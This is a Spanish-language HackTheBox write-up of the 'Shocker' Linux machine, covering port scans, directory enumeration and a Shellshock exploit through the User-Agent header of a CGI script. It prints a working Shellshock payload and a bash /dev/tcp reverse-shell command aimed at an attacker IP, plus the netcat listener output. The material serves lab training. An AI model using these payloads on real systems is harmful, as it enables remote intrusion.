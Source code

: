 ```yaml
---
title: Shocker | Linux
published: 2025-03-26
image: "./logo.png"
tags: [Easy, Linux, ShellShock Attack, Abusing Sudoers, Perl, eJTP, eWPT]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- ShellShock Attack (User-Agent)
- Abusing Sudoers Privilege (Perl)

### Preparación

- eWPT
- eJPT

***

## Reconocimiento

Para comenzar el reconocimiento de esta máquina usaremos el comando **scan**:

```sh
scan () {
	sudo nmap -sS --min-rate=5000 -p- --open -vvv -n -Pn "$1" -oG "nmap/AllPorts"
}
```

Esto nos exportará los puertos que estén abiertos para que posteriormente ver las versiones que corren en cada puerto.

```
# Nmap 7.95 scan initiated Fri Mar 21 16:17:28 2025 as: /usr/lib/nmap/nmap -sS --min-rate=5000 -p- --open -vvv -n -Pn -oG nmap/AllPorts 10.10.10.56
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.56 ()    Status: Up
Host: 10.10.10.56 ()    Ports: 80/open/tcp//http///, 2222/open/tcp//EtherNetIP-1///
# Nmap done at Fri Mar 21 16:17:47 2025 -- 1 IP address (1 host up) scanned in 19.21 seconds
```

Una vez escaneados los puertos **88** y **2222** veremos lo siguiente:

```
# Nmap 7.95 scan initiated Sun Mar 23 21:58:37 2025 as: /usr/lib/nmap/nmap -p 2222,80 -sVC -oN nmap/Scan 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.039s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Mar 23 21:58:45 2025 -- 1 IP address (1 host up) scanned in 8.42 seconds
```

### Web

Hay un servidor web **Apache** y otro **SSH**, empezaremos por el primero, vamos a ver que hay en la web:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FOcclj7Af3GV6muW1w1Bt%2F1.png?alt=media&#x26;token=c76f433d-93da-411d-ad92-a13475608340" alt=""><figcaption></figcaption></figure>

Solo podemos ver esto, y el código fuente tampoco es que sea muy complejo:

```html
<html>
  <head></head>
  <body>
  <h2>Don't Bug Me!</h2>
  <img src="bug.jpg" alt="bug" style="width:450px;height:350px;">
 </body>
</html>
```

### Dirbuster

Por lo que usaremos **dirbuster** para ver directorios o archivos ocultos en el servidor.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FrI8CAzl1vcLFICTNRJ9J%2F2.png?alt=media&#x26;token=b37966ac-4e38-490d-9c2c-1407887a39e7" alt=""><figcaption></figcaption></figure>

Vemos que hay una ruta llamada `/cgi-bin/` con un archivo `user.sh`. Vamos a buscar información para explotar esto.

## Explotación

Según el artículo: [https://deephacking.tech/shellshock-attack-web/](https://deephacking.tech/shellshock-attack-web/), la vulnerabilidad shellsock viene dada a algunas versiones antiguas de bash en las que al asignar una función como variable de entorno se ejecutaba.&#x20;

Hasta aquí no parece tan grave, el problema viene cuando podemos lograr un `RCE` (Remote Command Execution) . La información recibida por parte del cliente como el `User-Agent`, se guarda como variable de entorno. Esto es grave ya que puede ser manipulada por nosotros para explotarlo de la siguiente manera:

```http
http http://10.10.10.56/cgi-bin/user.sh User-Agent:"() { :;}; echo; echo ¿Es vulnerable?"
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Type: text/x-sh
Date: Wed, 26 Mar 2025 20:29:16 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.18 (Ubuntu)
Transfer-Encoding: chunked

¿Es vulnerable?

Content-Type: text/plain

Just an uptime test script

 16:29:16 up 21:50,  0 users,  load average: 0.00, 0.00, 0.00
```

> _`http` es una herramienta que he encontrado debido a que curl me estaba dando problemas con el User-Agent. Tiene la misma funcionalidad que curl._

Podemos ver que es vulnerable, por lo que podemos intentar establecer una reverse shell de la siguiente manera:

```bash
http http://10.10.10.56/cgi-bin/user.sh User-Agent:"() { :;}; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.17/8888 0>&1'"
```

```sh
❯ nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.56] 51862
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ ls
ls
user.sh
shelly@Shocker:/usr/lib/cgi-bin$
```

De esta manera ya podremos sacar la `user flag`:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F1RDGrWlHbcG4focLXIp8%2Fimage.png?alt=media&#x26;token=76c1399d-ab61-4814-b40e-e0e7ff495ad6" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios

Para la escalada de privilegios usaremos:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fefkt6gKOgecOTxxgmulC%2Fimage.png?alt=media&#x26;token=4fd0f181-4446-4e8d-ad47-9f3c16599780" alt=""><figcaption></figcaption></figure>

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FqdnacIa43jAvI6We8OEP%2Fimage.png?alt=media&#x26;token=dc182071-3121-4a35-a33e-11004c2fbec3" alt=""><figcaption></figcaption></figure>

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/108)

---